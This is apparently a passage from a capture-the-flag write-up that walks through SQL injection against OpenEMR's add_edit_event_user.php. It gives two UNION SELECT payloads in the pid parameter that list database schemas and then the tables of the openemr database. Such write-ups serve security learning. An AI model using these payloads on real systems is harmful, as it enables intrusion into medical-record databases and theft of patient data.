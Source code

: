 ![94c7b9710e1d18a86dfbc4d9e3aeec20.png](/images/htb-cache/4189e0dd7b5d4057b9f53c3592cce36e.png)

We can only see one entry, so we will need to add `group_concat()` to the statement. 

```sql
/add_edit_event_user.php?pid=1' UNION SELECT group_concat(schema_name),2,3,4,5 from information_schema.schemata -- -
```

![70d7413bcde36cf953c70ecfa2df37cc.png](/images/htb-cache/f0d373e9d6cb45009de1ba202364fd21.png)

From the above, we can assume that we are currently in the openemr database. Let's try to get the list of tables under this database. 

Let's move to using Burpsuite to do the injection instead. 

```sql
/add_edit_event_user.php?pid=1' UNION SELECT group_concat(table_name),2,3,4,5 from information_schema.tables where table_schema="openemr" -- -
```

![3bf5ca41cf5a20146a6abca0d59c281d.png](/images/htb-cache/f9548123b9ec4505a3402a975883be14.png)
